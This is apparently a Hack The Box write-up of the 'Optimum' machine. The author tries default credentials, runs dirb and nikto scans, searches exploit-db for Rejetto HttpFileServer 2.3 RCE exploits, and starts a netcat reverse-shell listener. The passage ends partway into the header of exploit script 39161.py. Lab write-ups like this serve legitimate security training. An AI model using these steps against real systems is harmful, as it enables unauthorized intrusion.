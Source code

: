 When trying to log into the portal, I tried all the very low hanging fruit possibilities - `admin:admin` and `admin:password`, etc. to no avail. I also threw out `dirb` and `nikto` scans, with the only interesting result coming back as an XSS vuln.

# Exploitation 

So where should I start? Well, there is a search box. I can try blindly SQL injecting to see if that does anything -- but I don't even know if SQL is behind that. I think the better direction is to use the Server Information, which in the case is **Rejetto HttpFileServer 2.3**, and looking for any vulnerabilities with that. 

```console
root@discovery:~/htb/oscp-like/optimum# searchsploit rejetto                                                             
-------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                  |  Path                                  
                                                                                | (/usr/share/exploitdb/)                
-------------------------------------------------------------------------------- ----------------------------------------
Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)          | exploits/windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple Vulnerabilities               | exploits/windows/remote/31056.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                  | exploits/multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)             | exploits/windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)             | exploits/windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution        | exploits/windows/webapps/34852.txt
-------------------------------------------------------------------------------- ----------------------------------------
```
## User Flag

So the exploit was faily simple to employ. I had to start up my listener on my local machine:

```console
root@discovery:~/htb/oscp-like/optimum# nc -lvnp 42069
listening on [any] 42069 ...
```
and then edit the exploit itself to include my own IP and port I'd like to connect back to -- the same one in my listener:

```python                                        
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#          It's different from classic file sharing because it uses web technology to be more compatible with today's In>
#          It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Acces>
```
